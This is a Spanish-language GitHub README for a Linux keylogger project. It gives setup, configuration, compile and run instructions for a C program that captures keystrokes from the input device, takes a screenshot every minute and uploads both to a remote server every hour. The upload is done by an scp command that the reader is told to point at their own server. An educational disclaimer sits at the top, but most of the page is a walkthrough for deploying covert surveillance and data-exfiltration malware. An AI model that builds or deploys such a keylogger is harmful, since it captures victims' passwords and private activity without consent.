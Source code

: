 # Keylogger + Caps 👁

Keylogger con función de capturas de pantalla y envio de datos a un servidor configurable **LINUX**.

# ⚠️ ADVERTENCIA

Este proyecto fue desarrollado **exclusivamente con fines educacionales** como parte de un curso de seguridad informática. **No debe ser utilizado en ningún otro contexto ni con intenciones maliciosas.**

**Aviso Legal:**

El uso de keyloggers esta estrictamente prohibido en diversos países si no se cuenta con el consentimiento explícito del usuario final. El monitoreo o captura de las actividades de un usuario sin su autorización es una violación grave de la privacidad y puede conllevar sanciones legales.

Este código **no debe ser utilizado fuera del entorno educacional ni aplicado a sistemas en producción o dispositivos ajenos sin autorización y consentimiento explicito.**
**El autor no se hace responsable por el uso indebido de este código.** Cualquier intento de utilizar este proyecto para propósitos distintos a los estipulados en este repositorio es **bajo responsabilidad del usuario.**

# Requisitos:

_Nota: La distribución usada y la de este tutorial es para sistemas basados en Debian._
_El código del ejemplo fue probado en un sistema con Parrot por lo que puede variar dependiendo del sistema utilizado._

Es necesario contar con lo siguiente para poder ejecutar y/o compilar el programa:

- **Compilador de C (en este caso gcc).**
- **Libreria scrot (para captura de pantalla).**

```bash
  sudo apt-get install scrot
```

- **Libreria openssh-client (para el envio de datos a servidor local).**

```bash
  sudo apt-get install openssh-client
```

<!-- - **Librerias evdev (para trabajar con evdev).**

```bash
  sudo apt-get install libevdev-dev
``` -->

**Nota:** Además, se utilizaron otras librerias que estan preinstaladas en entornos linux, en caso no presentar errores de librerias, aqui se encuentra un listado con todas las que se utilizaron.

```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <fcntl.h>
  #include <unistd.h>
  #include <linux/input.h>
  #include <linux/input-event-codes.h>
  #include <pthread.h>
  #include <time.h>
```

# Instrucciones de uso:

Clonar este repositorio con ayuda del comando:

```c
  git clone https://github.com/NightMare070/keylogger_linux
```

Dentro de keylogger.c configurar las rutas de acuerdo a donde se requieran:

```c
  //Por defecto se crean en el mismo directorio donde
  //se encuentra el ejecutable

  // Ruta del archivo que registra las teclas
  log_file = fopen("keylog.txt", "a");
  //Ruta de la carpeta que contiene las imagenes
  snprintf(filename, sizeof(filename), "screenshot_%04d-%02d-%02d_%02d-%02d-%02d.png",
```

Dentro de keylogger.c en la función **_transfer_files_** modificar la variable de acuerdo a tu servidor:

```c
  //Variable de ruta
  snprintf(command, sizeof(command), "scp keylog.txt screenshot_*.png user@server:/path/to/destination/");
```

Una vez teniendo el archivo **keylogger.c** configurado ejecutar el siguiente comando para compilarlo:

```bash
  gcc -o keylogger keylogger.c -pthread
```

y despues ejecutar de la siguiente manera:

```bash
  sudo ./keylogger
```

Y automaticamente despues de ejecutar, se  creara un TXT en la ruta del ejecutable **keylogger** que empezará a registrar las teclas que vamos pulsando además de tomar capturas de pantalla **cada minuto** y enviarlas a un servidor cada hora.

# Supuestos del programa:

## Sistema Operativo:

1. El programa está diseñado para ejecutarse en una distribución de Linux.

## Permisos de Usuario:

1. Se asume que el programa se ejecuta con los permisos necesarios para acceder a los dispositivos de entrada del teclado **(/dev/input/event3)** y que tiene permisos de escritura en el directorio donde se almacenarán los registros y capturas de pantalla.

## Dependencias Instaladas:

1. **libssh2**  para manejar las conexiones SSH.

2. **scrot** para tomar capturas de pantalla.

3. **pthread** para manejar la concurrencia (aunque pthread.h está preinstalado en la mayoría de los sistemas Linux, es necesario asegurarse de que esté disponible).

## Configuración SSH:

1. Se asume que las credenciales de acceso SSH al servidor remoto están configuradas correctamente, ya sea mediante autenticación por clave o usuario/contraseña, y que el servidor remoto está accesible.

## Conexión a Internet:

1. Se asume que la máquina en la que se ejecuta el programa tiene conexión a Internet para poder realizar el envío de los archivos al servidor remoto.

## Directorio de Trabajo:

1. Se asume que el directorio donde se almacenan las capturas de pantalla y los registros de teclas tiene suficiente espacio en disco.

# Casos de uso:

El programa funciona en forma de **3 hilos**, **1 para registrar las teclas**, **1 para tomar las screenshots** y **otro para enviar la información al servidor.** Por lo que técnicamente funcionan de forma independiente y no dependen uno del otro. Sin embargo si no se encuentra el TXT (en un caso hipotético), el programa no tendrá nada para enviar al servidor y lo mismo con las imagenes.

## Hilo principal (main):

| Paso | Actor | Sistema                                    | Si falla                           |
| ---- | ----- | ------------------------------------------ | ---------------------------------- |
| 1    |       | Crear hilos de ejecución para cada tarea   |
| 2    |       | Se crea el hilo del keylogger              | No se registrarán las teclas       |
| 3    |       | Se crea el hilo del tomador de screenshots | No se tomarán screenshots          |
| 4    |       | Se crea el hilo del envio a servidor       | No se enviarán datos a el servidor |

Entonces podemos dividir los casos de uso en 3 partes.

Además, podemos agregar un caso extra por el monitorio constante tanto de teclas, como de capturas de pantalla.

1. Registro de Teclas:

- **Descripción:** El programa captura las pulsaciones de teclas del usuario en tiempo real y las almacena en un archivo **keylog.txt**.
- **Caso de Uso:** Registrar la actividad del teclado para su posterior análisis.

2. Captura de Pantallas:

- **Descripción:** Cada minuto, el programa toma una captura de pantalla y la guarda con un nombre que incluye la fecha y hora de la captura.
- **Caso de Uso:** Monitorear la actividad visual de la pantalla para revisar lo que se muestra en intervalos regulares.

3. Envío de Datos al Servidor Remoto:

- **Descripción:** Cada hora, el programa empaqueta los archivos **keylog.txt** y las capturas de pantalla en un archivo comprimido y lo envía a un servidor remoto usando SSH.
- **Caso de Uso:** Transferir los datos recopilados a un servidor remoto para su almacenamiento o análisis.

4. Monitoreo Concurrente:

- **Descripción:** El programa ejecuta las tareas de captura de teclas, captura de pantalla y envío de datos de manera concurrente usando hilos **(pthread)**.
- **Caso de Uso:** Permitir que todas las funcionalidades se ejecuten simultáneamente sin interferencias.